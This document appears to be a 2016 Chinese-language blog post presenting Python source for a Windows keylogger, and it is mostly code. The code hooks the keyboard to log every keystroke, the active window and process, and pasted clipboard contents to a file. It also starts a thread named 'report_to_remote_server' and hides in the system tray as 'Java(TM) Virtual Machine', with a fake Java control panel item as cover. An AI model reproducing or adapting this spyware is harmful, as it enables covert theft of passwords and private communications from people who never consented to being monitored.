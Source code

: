 ```yaml
---
title: py编写键盘记录器初步
author: Semprathlon / Simfae Dean
tags: []
categories: []
date: 2016-09-09 14:01:41
---
```

- 调用win32 API记录键盘事件、窗口事件

 
<pre class="lang:python decode:true " >#
def get_current_process():

    # 获取最上层的窗口句柄
    hwnd = user32.GetForegroundWindow()

    # 获取进程ID
    pid = c_ulong(0)
    user32.GetWindowThreadProcessId(hwnd,byref(pid))

    # 将进程ID存入变量中
    process_id = "%d" % pid.value

    # 申请内存
    executable = create_string_buffer("\x00"*512)
    h_process = kernel32.OpenProcess(0x400 | 0x10,False,pid)

    psapi.GetModuleBaseNameA(h_process,None,byref(executable),512)

    # 读取窗口标题
    windows_title = create_string_buffer("\x00"*512)
    length = user32.GetWindowTextA(hwnd,byref(windows_title),512)

    # 打印
    # print
    # print "[ PID:%s-%s-%s]" % (process_id,executable.value,windows_title.value)
    # print
    Thread(target=report_to_remote_server).start()
    output_file('','KeyLog.ini',"\n[ PID:%s-%s-%s] %s\n" % (process_id,executable.value,windows_title.value,time.strftime("%Y/%m/%d %H:%M:%S")));

    # 关闭handles
    kernel32.CloseHandle(hwnd)
    kernel32.CloseHandle(h_process)

# 定义击键监听事件函数
def KeyStroke(event):

    global current_window

    # 检测目标窗口是否转移(换了其他窗口就监听新的窗口)
    if event.WindowName != current_window:
        current_window = event.WindowName
        # 函数调用
        get_current_process()

    # 检测击键是否常规按键（非组合键等）
    if event.Ascii &gt; 32 and event.Ascii &lt;127:
        # print chr(event.Ascii),
        output_file('','KeyLog.ini',chr(event.Ascii))
    else:
        # 如果发现Ctrl+v（粘贴）事件，就把粘贴板内容记录下来
        if event.Key == "V":
            win32clipboard.OpenClipboard()
            pasted_value = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard()
            # print "[PASTE]-%s" % (pasted_value),
            output_file('','KeyLog.ini',"[PASTE]-%s" % (pasted_value))
        else:
            # print "[%s]" % event.Key,
            output_file('','KeyLog.ini',"[%s]" % event.Key)
    # 循环监听下一个击键事件
    return True

def RegisterKeyListener():
    # 创建并注册hook管理器
    kl = pyHook.HookManager()
    kl.KeyDown = KeyStroke

    # 注册hook并执行
    kl.HookKeyboard()
    pythoncom.PumpMessages()
</pre> 


但是对于QQEdit.exe，记录值会受到干扰。

- 日志记录

 
<pre class="lang:python decode:true " >def output_file(dir,name,content):
    fileName = ''
    if len(dir)&gt;0:
        fileName = fileName+dir + "/"
    fileName = fileName + name#.encode('utf-8','ignore')
    f = open(fileName,"a")
    f.write(content)
    # print "Output file",fileName
</pre> 


- Tk GUI 

支持异步多线程操作的UI库

 
<pre class="lang:python decode:true " >class Tk_App:
    def __init__(self,master):
        #构造函数里传入一个父组件(master),创建一个Frame组件并显示
        frame = Frame(master)
        frame.pack()
        #创建两个button，并作为frame的一部分
        self.button = Button(frame, text="QUIT", fg="red", command=sys.exit)# frame.quit
        self.button.pack(side=LEFT) #此处side为LEFT表示将其放置 到frame剩余空间的最左方
        self.hi_there = Button(frame, text="Hello", command=self.say_hi)
        self.hi_there.pack(side=LEFT)
        # Thread(target=RegisterKeyListener).start()
        # sys.stdout.flush()

    def say_hi(self):
        print "hi there, this is a class example!"

TRAY_TOOLTIP = 'Java(TM) Virtual Machine'
TRAY_ICON = 'icon.png'


def create_menu_item(menu, label, func):
    item = wx.MenuItem(menu, -1, label)
    menu.Bind(wx.EVT_MENU, func, id=item.GetId())
    menu.AppendItem(item)
    return item


class TaskBarIcon(wx.TaskBarIcon):
    def __init__(self,frame):
        self.frame=frame
        super(TaskBarIcon, self).__init__()
        self.set_icon(TRAY_ICON)
        self.Bind(wx.EVT_TASKBAR_LEFT_DOWN, self.on_left_down)
        mainth.start();

    def CreatePopupMenu(self):
        menu = wx.Menu()
        # create_menu_item(menu, 'Say Hello', self.on_hello)
        create_menu_item(menu,'Control Panel',self.on_control);
        menu.AppendSeparator()
        create_menu_item(menu, 'Exit', self.on_exit)
        # create_menu_item(menu, 'Exit', sys.exit)
        return menu

    def set_icon(self, path):
        icon = wx.IconFromBitmap(wx.Bitmap(path))
        self.SetIcon(icon, TRAY_TOOLTIP)

    def on_left_down(self, event):
        print 'Tray icon was left-clicked.'

    def on_hello(self, event):
        print 'Hello, world!'


    def on_control(self,event):
        # print r'"%JAVA_HOME%\jre\bin\javacpl.exe"'
        # os.system(r'cd /d %JAVA_HOME%');
        os.system(r'""%JAVA_HOME%\jre\bin\javacpl.exe""');
        # print os.path.realpath(sys.argv[0])
        # print os.path.dirname(sys.argv[0])
        # print os.path.basename(sys.argv[0])

    def on_exit(self, event):
        wx.CallAfter(self.Destroy)
        self.frame.Close()
        mainth._Thread__stop()
        # sys.exit()

class App(wx.App):
    def OnInit(self):
        frame=wx.Frame(None)
        self.SetTopWindow(frame)
        TaskBarIcon(frame)
        return True
</pre> 
